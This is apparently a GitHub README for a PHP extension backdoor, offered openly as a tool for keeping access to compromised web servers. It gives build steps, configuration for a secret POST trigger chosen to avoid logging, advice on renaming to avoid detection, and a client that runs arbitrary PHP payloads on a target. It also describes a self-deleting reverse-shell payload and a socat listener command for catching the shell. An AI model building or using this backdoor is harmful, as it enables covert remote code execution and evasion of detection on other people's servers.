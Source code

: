 # PHP Backdoor Module

This is an example module for adding a backdoor to the PHP installation on a webserver by adding a PHP module. Very useful for mantaining access to a compromised host.

#Build Instructions

First off, you are going to want to edit the "magic string" (or rather, variable), and method. I have set them to POST, because GET variables get logged. You might want to edit some other things so it doesn't show up as "backdoor".

## Linux
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "execute"; // magic string
```

## Windows
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "secret_string"; // magic string
```

And next, we compile. For windows, I link to the articles (original in Russian, mine in English which is basically a translation I did).

##Windows:
[Original Russian Article][russian]

[English 'translation'][english]

##Linux:
`sudo apt-get install php5-dev`  
`phpize && ./configure && make`

# Use Instructions
In client/ I provide an example Python client which allows executing any arbritary PHP payload on the webserver. I also provide some example payloads in client/payloads/ that you may find useful. 

To use the client, you simply do the following.
```
root@unsanitized:~/dev/php-extension-backdoor/client# ./php_module_client.py http://192.168.1.7 secret_squirrels payloads/getuid.php
Starting execution...
uid: 33
Done!
root@unsanitized:~/dev/php-extension-backdoor/client#
```

Planned payloads include a variety of information gathering payloads, some reverse shells, and other useful utilities that I come up with. I will release those as they prove to be stable/useable soon.

# Payloads
## info.php
Prints UID, GID, and the uname -a of the server.

## back_python.php
Self destructing python backconnect. Sends a PTY home, and deletes itself once done. Work in progress, gotta find a way to pass arguments to the modules.

I recommend using Socat to accept PTY shells like so:
```
$ socat -,echo=0,raw tcp4-listen:PORT
```
![PTY Backconnect](http://0x27.me/images/phpextbackdoor-pythonpty.png)

# Credits
Original Russian author, and [akamajoris][akamajoris]. All I did was some translation and writing payloads and client because I found them useful. 

[russian]: http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/
[english]: http://example.com/
[akamajoris]: https://github.com/akamajoris

